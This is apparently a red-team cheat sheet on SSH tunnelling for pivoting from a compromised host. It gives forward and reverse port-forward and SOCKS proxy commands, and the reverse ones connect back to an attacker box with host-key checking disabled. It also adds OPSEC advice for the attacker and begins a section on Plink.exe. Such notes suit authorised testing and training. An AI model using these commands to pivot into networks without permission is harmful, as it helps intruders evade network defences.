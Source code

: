 ### SSH Tunnelling and Port Forwarding
---
#### Forward Connections

Created from the attacker's box (locally) **when SSH access to the target is available**.

Two ways for forward SSH tunnels using the SSH client -- Port Forwarding, and Proxying:

- **Port Forwarding Example:**

Link local port `8000` to the remote resource at `172.16.0.10:80` through `user@172.16.0.5`

```python
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

- **Forward Proxy Example:**

**Good for Proxychains**. Open port `1337` (attacker's box) to proxy data through `user@172.16.0.5` into the target network.

```python
ssh -D 1337 user@172.16.0.5 -fN
```

#### Reverse Connections

Used when **there is an SSH client** on the target box **but not an SSH server**.

**NOTE:** Key authentication would be better for OPSEC. Add `no-agent-forwarding,no-x11-forwarding,no-pty` at the beginning of the public key to disallow shell access on the attacker box. Also, concider creating a throwaway, low-privileged user, just for this use-case.

- **Reverse Port Forwarding Example:**

Use port `8000` on the compromised host as a proxy to forward traffic from the attacker's box at `attacker@172.16.0.20` to the target host at `172.16.0.10:80`.

```python
ssh -o StrictHostKeyChecking=no -R 8000:172.16.0.10:80 attacker@172.16.0.20 -i attacker_key -fN
```

**NOTE:** The option `-o StrictHostKeyChecking=no` is used to auto-accept the host key without prompting.

- Reverse Proxy Example:

**Good for Proxychains**. Use port `8000` on the compromised host as a proxy to forward all traffic comming from the attacker's box at `172.16.0.20`.

```python
ssh -o StrictHostKeyChecking=no -R 8000 attacker@172.16.0.20 -i attacker_key -fN
```

### Plink.exe
---
Command line version of PuTTY client. Usefull for older systems, since they don't come with a built-in SSH client like more modern Windows systems do.
